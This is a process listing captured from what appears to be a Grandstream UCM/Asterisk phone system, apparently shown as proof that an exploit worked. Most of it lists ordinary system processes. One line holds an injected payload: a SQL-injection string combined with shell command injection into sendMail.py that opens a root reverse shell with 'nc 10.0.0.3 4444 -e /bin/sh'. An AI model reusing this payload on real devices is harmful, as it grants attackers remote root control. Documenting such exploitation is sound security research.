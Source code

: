 ```
 5507 root       0:00 [migration/1]
 5544 root       0:02 [ksoftirqd/1]
 5959 root       0:00 /bin/sh
 6008 root       0:00 [kworker/1:1]
 6028 root       0:00 dbus-daemon --session --print-address --fork
 6035 root       0:21 /usr/bin/gs_gui
 6060 root       0:00 /usr/sbin/crond -c /etc/crontabs
 6067 root       0:00 [jbd2/mmcblk0p14]
 6068 root       0:00 [ext4-dio-unwrit]
 6071 root       0:00 [jbd2/mmcblk0p15]
 6072 root       0:00 [ext4-dio-unwrit]
 6294 root       0:01 lowmem_killer
 6297 root       0:00 /usr/bin/pvalue_validation_server /tmp/.pvalue_validation /etc/pvalues.xml
 6298 root       0:00 msg_server
 6319 root       0:00 /sbin/dropbear -jk -p 22
 6363 root       0:00 ifplugd -I -q -d 3 -i eth1
 6460 root       0:00 syslogd -O /log/syslog -T /var/log/syslog.tmp -i 60 -s 1900 -b 24 -l 8
 6462 root       0:00 klogd
 6468 root       0:00 [flush-179:0]
 6661 root       0:00 sleep 60
 6774 root       0:00 {safe_postfix.sh} /bin/sh /cfg/var/lib/asterisk/scripts/safe_postfix.sh
 6783 root       0:03 python /cfg/var/lib/asterisk/scripts/mail_log_monitor.py
 6828 root       0:00 sh -c python /app/asterisk/var/lib/asterisk/scripts/sendMail.py password '' `cat <<'TTsf7G0' z' or 1=1--`;`nc 10.0.0.3 4444 -e /bin/sh`;` TTsf7G0 `
 6843 root       0:00 /bin/sh
 6947 root       0:00 sleep 2
 6948 root       0:00 ps faux
 7253 root       0:00 udhcpc -m -b -i eth1 -V UCM -O vendor -O vivs -O timezone -O ntpsrv -p /var/run/udhcpc.pid.eth1
 7439 root       0:00 /usr/libexec/postfix/master -w
 7441 postfix    0:00 qmgr -l -t unix -u
 7929 root       0:00 [el_handler]
 7963 root       0:00 [TAPIevents]
 8046 root       0:00 [tSVIP0_Rcv]
 8047 root       0:00 [tSVIP0_Ack]
 8052 root       0:00 [tSVIP0_Hnd]
 8156 root       0:00 udevd --daemon
 8170 root       0:00 udevd --daemon
 8278 postfix    0:00 pickup -l -t unix -u
 8435 root      11:17 [fxo.checkhookd]
 8546 root       7:04 [fxs.checkhookd]
 8583 root       0:00 {safe_asterisk} /bin/sh /app/asterisk/sbin/safe_asterisk
 8648 root       0:00 /app/asterisk/libexec/slapd
 8663 root       3:44 /app/asterisk/sbin/asterisk -f -vvvg -c
 8744 root       0:00 /app/asterisk/sbin/dhcpd -cf /app/asterisk/etc/dhcpd.conf -lf /app/asterisk/etc/dhcp/dhcpd.lease -pf /tmp/dhcpd.pid eth0
 8909 root       0:03 /app/asterisk/bin/cgi
 8947 root       0:05 /app/asterisk/sbin/zero_config
 8954 root       0:00 {safe_ucm_warnin} /bin/sh /app/asterisk/bin/safe_ucm_warning
 8960 root       0:07 /app/asterisk/bin/ucm_warning
 8965 root       0:09 python /app/asterisk/bin/service_check.py
 8966 root       0:05 python /app/asterisk/bin/cgi_service_check.py
 8967 root       0:12 python /app/asterisk/bin/mcm_service_check.py
 8968 root       0:12 python /app/asterisk/bin/avs_service_check.py
 9122 root       0:00 python /app/asterisk/bin/portmap.py
 9174 root       0:13 {safe_mid.sh} /bin/sh /cfg/var/lib/asterisk/scripts/safe_mid.sh
 9175 root       0:11 python /app/asterisk/var/lib/asterisk/scripts/core_manager.py
 9189 root       0:35 /app/asterisk/bin/pbxmid
12699 root       0:45 /app/asterisk/sbin/lighttpd -f /app/asterisk/etc/lighttpd/lighttpd.conf
```
